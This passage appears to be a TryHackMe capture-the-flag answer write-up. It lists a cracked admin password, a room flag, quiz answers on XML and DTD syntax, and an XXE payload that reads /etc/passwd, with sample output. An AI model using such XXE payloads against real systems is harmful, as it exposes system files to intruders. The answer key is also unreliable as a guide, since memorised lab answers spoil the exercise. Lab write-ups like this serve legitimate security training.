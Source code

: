 ### What is the admin's plaintext password?
Use <a href="https://crackstation.net/" target="_blank">Crackstation</a> or <a href="https://www.cmd5.org/" target="_blank">Cmd5</a>
> *Answer:* qwertyuiop

### Login as the admin. What is the flag?
> *Answer:* THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}


<br><br>
# [Severity 4 XML External Entity - eXtensible Markup Language

### Full form of XML
> *Answer:* eXtensible Markup Language

### Is it compulsory to have XML prolog in XML documents?
> *Answer:* no

### Can we validate XML documents against a schema?
> *Answer:* yes

### How can we specify XML version and encoding in XML document?
> *Answer:* XML prolog


<br><br>
# [Severity 4] XML External Entity - DTD

### How do you define a new ELEMENT?
> *Answer:* !ELEMENT

### How do you define a ROOT element?
> *Answer:* !DOCTYPE

### How do you define a new ENTITY?
> *Answer:* !ENTITY


<br><br>
# [Severity 4] XML External Entity - Exploiting

### What is the name of the user in /etc/passwd
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
...
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
```
> *Answer:* falcon
